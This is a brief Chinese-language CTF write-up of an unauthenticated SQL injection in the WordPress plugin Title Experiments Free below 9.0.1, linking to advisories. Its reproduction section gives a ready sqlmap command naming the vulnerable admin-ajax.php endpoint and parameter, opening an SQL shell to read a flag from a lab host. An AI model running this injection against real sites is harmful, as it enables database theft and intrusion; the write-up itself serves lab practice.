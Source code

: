 ## 1. 漏洞介绍
wordpress插件 Title Experiments Free < 9.0.1 没有对用户输入进行过滤和转义，导致了SQL注入。    
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2022-0784)    
推荐：[Title Experiments Free < 9.0.1 - Unauthenticated SQLi](https://wpscan.com/vulnerability/6672b59f-14bc-4a22-9e0b-fcab4e01d97f/)    
## 2. 漏洞复现
直接跑 sqlmap 即可

```shell
sqlmap -u http://eci-2zei2boyfnn0e3rui7p5.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php --data "action=wpex_titles&id[]=1" --sql-shell
select flag from flag
```

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310051614572.png)

